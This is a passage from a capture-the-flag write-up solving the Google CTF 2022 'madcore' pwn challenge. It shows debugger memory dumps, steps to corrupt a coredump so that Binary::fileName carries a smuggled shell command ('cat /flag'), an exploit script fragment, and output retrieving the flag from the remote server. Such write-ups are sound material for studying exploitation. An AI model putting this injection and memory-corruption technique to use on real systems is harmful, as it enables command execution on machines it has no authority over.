 ```python
0x55c516ae18e0:	0x0000000000000000	0x00007fe9b00f1da0
0x55c516ae18f0:	0x0000000000000002	0x000000000000000e
0x55c516ae1900:	0x00007efca373f00b	0x0000000000000033
0x55c516ae1910:	0x0000000000000246	0x00007fe9b00f1da0
0x55c516ae1920:	0x000000000000002b	0x0000000000000031
pwndbg> vmmap 0x00007fe9b00cf010
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x7fe9b008f000     0x7fe9b1094000 rw-p  1005000 0      [anon_7fe9b008f] +0x40010 <=== offset is reduced by 0x10 == 0x40000
```

3. Overwrite the memory at offset+0x10 to the malicious `Binary::fileName`

```python
00040000: 902b aca3 fc7e 0000 b0c4 9ba3 fc7e 0000  .+...~.......~..
00040010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00040020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00040030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00040040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
```

4. Replace `A` characters with malicious command in `solve.py`

```python
to_replace = b"A"*64
lngth = len(to_replace)
payload =  b"a 7; cat /flag #"
payload = payload.ljust(lngth, b"a")
data = data.replace(to_replace, payload)
```

5. Fix last bug:
As the `frameCount` is huge, the loop executing `Symbolizer::Symbolicate()` won't stop after our fake `CallFrame` but will go further. This will end with `SEGFAULT`
or other errors and as a result the JSON with outputs won't be printed and we won't see the output of command. In order to fix that I specified the `frameCount` value
that will cause the loop to finish just after fake `CallFrame`. This is fairly easy, as we know the current value (`0x742f6572`) and we know it is `0x18 * 0x3 = 0x48`
after the top chunk size we already written into our _coredump_ file.
The value `frameCount == 0xd` returned following result:

```bash
➜  writeup git:(main) ✗ ./solve.py CORE=crash/core.1001.14162.1657865437
[*] len: 507904
[*] Switching to interactive mode
LLVMSymbolizer: error reading file: No such file or directory
LLVMSymbolizer: error reading file: No such file or directory
{"backtrace":[[0,"<unknown>"],[0,"<unknown>"],[0,"<unknown>"],[0,"<unknown>"],[0,"<unknown>"],[0,"<unknown>"],[0,"<unknown>"],[289,"??\n??:0:0\n\n"],[336,"<unknown>"],[3386829460269511470,"<unknown>"],[3687940315385325932,"<unknown>"],[7596498852877118840,"<unknown>"],[1,"??\n??:0:0\n\nCTF{TEST_FLAG}\n"]],"modules":[]}
[*] Got EOF while reading in interactive
$ 
```
and on remote:
```bash
➜  writeup git:(main) ✗ ./solve.py CORE=crash/core.1001.14162.1657865437 REMOTE
[+] Opening connection to madcore.2022.ctfcompetition.com on port 1337: Done
[*] len: 507904
[*] Switching to interactive mode
{"backtrace":[[0,"<unknown>"],[0,"<unknown>"],[0,"<unknown>"],[0,"<unknown>"],[0,"<unknown>"],[0,"<unknown>"],[0,"<unknown>"],[289,""],[336,"<unknown>"],[3386829460269511470,"<unknown>"],[3687940315385325932,"<unknown>"],[7596498852877118840,"<unknown>"],[1,"CTF{w4y_cpp_g0tta_be_like_that_can_we_get_a_good_STLPLS}\n"]],"modules":[]}
[*] Got EOF while reading in interactive
$  
```

[googlectf]:    https://capturetheflag.withgoogle.com/challenges/pwn-madcore
[madcore_zip]:  https://embe221ed.dev/files/CTFs/GoogleCTF/2022/pwn/madcore/madcore.zip
